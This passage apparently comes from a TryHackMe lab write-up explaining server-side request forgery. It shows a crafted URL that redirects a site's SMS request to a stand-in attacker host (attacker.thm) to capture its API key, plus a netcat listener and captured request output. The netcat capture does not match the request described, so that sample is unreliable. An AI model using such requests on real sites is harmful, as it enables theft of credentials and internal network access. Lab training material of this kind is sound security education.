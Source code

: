 By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the server parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the server to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`

You could then just capture the contents of the request using Netcat:

```
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:
+ Enumerate internal networks, including IP addresses and ports.
+ Abuse trust relationships between servers and gain access to otherwise restricted services.
+ Interact with some non-HTTP services to get remote code execution (RCE).

Let's quickly look at how we can use SSRF to abuse some trust relationships.

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a1e960f5-a4a8-4d5f-bfdb-fbde51ef4840)

